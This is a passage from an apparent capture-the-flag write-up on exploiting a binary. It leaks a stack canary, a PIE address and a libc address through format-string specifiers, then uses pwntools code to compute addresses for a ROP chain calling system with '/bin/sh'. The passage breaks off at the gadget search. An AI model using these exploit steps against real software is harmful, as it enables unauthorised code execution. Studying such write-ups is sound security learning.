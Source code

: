 Looking at the leaks:

* `0x634fd53113874a00` looks like a canary, because it starts with a null byte, looks random, and isn't a valid address
* `0x555555554850` looks like a `pie` address, as they'll usually start with `0x55...`
* `0x7ffff7e18e0b` looks like `libc` address, lets check in `gdb`

  ```text
  gdb-peda$ x 0x7ffff7e18e0b
  0x7ffff7e18e0b <__libc_start_main+235>: 0x48000171aee8c789
  ```

And surely enough, it leaks `__libc_start_main+235`. To find regular `__libc_start_main`, we'll subtract `0xeb`, as `235` is equal to `0xeb`

In our script, we'll assign everything as follows:

```text
p.sendline("%p|" * 21)
leak = p.clean(0.2).split(b"|")

canary = int(leak[13],16)
pie = int(leak[19], 16) - 0x850
__libc_start_main = int(leak[15], 16) - 0xeb
```

### Gathering components

For our exploit, we will be doing a classic rop exploit. Since it's 64 bit, we need to use gadgets to call `sytem` with args. This is what our exploit will look like:

* padding up to canary
* canary
* padding up to return pointer
* `pop rdi; ret` gadget, to pop our arg into `rdi`
* `/bin/sh`, which is our arg
* `system`, the function we'll call

First, we'll find the libc base. With pwntools, we can create an ELF object for my libc version, making it easier to to use offsets:

```python
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.30.so")
```

And we'll use this to get the offset of `__libc_start_main`, and then find the libc base:

```python
libc_base = __libc_start_main - libc.symbols["__libc_start_main"]
```

And then we can use this to find `system`, and `/bin/sh`:

```python
system = libc_base + libc.symbols["system"]
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))
```

Next, we need to find the address of `pop rdi; ret`. We'll use `ROPgadget.py` to do so:
